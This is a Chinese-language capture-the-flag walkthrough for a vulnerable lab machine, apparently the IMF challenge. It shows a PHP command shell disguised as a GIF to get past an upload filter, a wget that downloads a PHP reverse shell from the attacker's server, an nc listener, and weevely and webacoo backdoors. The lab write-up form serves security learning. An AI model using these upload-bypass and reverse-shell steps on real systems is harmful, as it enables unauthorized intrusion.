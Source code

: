 -------
拓展知识，参考文章：
https://zhuanlan.zhihu.com/p/25049406
知道JPG／JPEG文件会是FFD8FFE0为文件头！
-------
echo 'FFD8FFE1' | xxd -r -p > test1.gif
echo '<?php $dayu=$_GET['dayu']; echo `$dayu`; ?>' >> dayu.gif

xxd创建一个hexdump，使用组合-r和-p读取没有行号信息和特定列布局的普通十六进制转储。
-------

浏览器访问：
http://10.211.55.36/imfadministrator/uploads/bf12807d791f.gif?cmd=cat flag5_abc123def.txt
获得flag5：flag5{YWdlbnRzZXJ2aWNlcw==} 
base64解码获得：agentservices

反弹shell：
cp /usr/share/webshells/php/php-reverse-shell.php .   ----复制phpshell到本文件夹
python -m SimpleHTTPServer 8081   ----开启http服务
http://10.211.55.36/imfadministrator/uploads/bf12807d791f.gif?cmd=wget%20http://10.211.55.19:8081/php-reverse-shell.php
wget下载phpwebshell到uoload目录！

nc -vlp 1234
http://10.211.55.36/imfadministrator/uploads/php-reverse-shell.php  ----访问
成功获得反弹shell！
----------------------
方法2：
weevely  


weevely generate passdayu dayu.php   ---生成dayu.php文件密码为passdayu
generate  ---生成新代理
mv dayu.php dayu.gif    ---然后头部加入GIF98a并改名文件为gif

然后上传文件，看源码ID：ff075cd8aeef
weevely http://10.211.55.36/imfadministrator/uploads/ff075cd8aeef.gif passdayu
成功获得shell，该shell很稳定！

------------------
方法3：webacoo   ---测试无法绕过waf！！！！！


webacoo -g -o dayu1.php
-g 生成后门代码（需要-o）
-o OUTPUT 生成的后门输出文件名

和方法2一样，加入GIF98a然后改名dayu1.gif，查看ID：

webacoo -t -u http://x.x/.login.php

-t 建立远程“终端”连接（需要-u）
-u URL 后门 URL 

测试无法绕过waf！！！！！

------------------
方法4：  测试无法绕过waf！！！！！
Msf-php-维持shell
